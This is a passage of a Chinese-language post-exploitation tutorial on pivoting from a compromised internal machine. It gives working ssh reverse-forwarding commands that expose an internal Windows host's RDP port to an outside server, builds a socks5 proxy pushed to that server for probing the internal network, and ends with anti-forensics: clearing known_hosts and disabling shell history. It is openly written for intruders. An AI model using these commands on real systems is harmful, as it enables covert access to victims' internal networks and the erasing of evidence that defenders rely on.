 例子2:

内网ip转发： 除了能转发localhost，还能转发内网其他ip的端口，甚至在不同网段都行，只要能从内网的已沦陷机器访问到就行。比如内网有个windows服务器，ip 192.168.5.10, 开了3389端口，不过也只能在内网访问⋯⋯

```
ssh -fNR 13389:192.168.5.10:3389 forward@123.123.123.123

```

反弹成功后mstsc连123.123.123.123:13389即可⋯⋯

ssh转发端口是可以多开的，就是要注意转发到你服务器的端口不要重了。

用完之后记得关掉:

```
ps aux|grep ssh

```

在进程里可以看到ssh的转发命令，把pid kill了就行。另外也可以在ssh服务器端kill，

```
netstat -anp|grep sshd

```

ssh的时候会记录known_hosts，所以最后擦屁股的时候记得到开ssh的用户名的home文件夹 .ssh里面把known_hosts清掉

ssh反弹socks5方法

如果用ssh自带的socks5服务器的话，需要一个能在本地登录的帐号，可以是nologin的，但是必须要能登录，如果不是root的话，socks端口只能开到>1024的端口。原理是先在本地开socks5，然后把本地socks5服务器的端口弹到远程服务器。

姿势：

```
ssh -fND 127.0.0.1:8080 user@127.0.0.1

```

这样会在本地8080端口开socks5代理，然后反弹

```
ssh -fNR 18080:127.0.0.1:8080 forward@123.123.123.123

```

这样可以把socks5代理弹到123.123.123.123的18080端口，可以用proxychains和其他支持socks5代理的工具最大限度的窥探内网

### Linux下隐藏痕迹

* * *

通过其他方式得到shell的话，需要去掉histfile等环境变量：

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null;

```
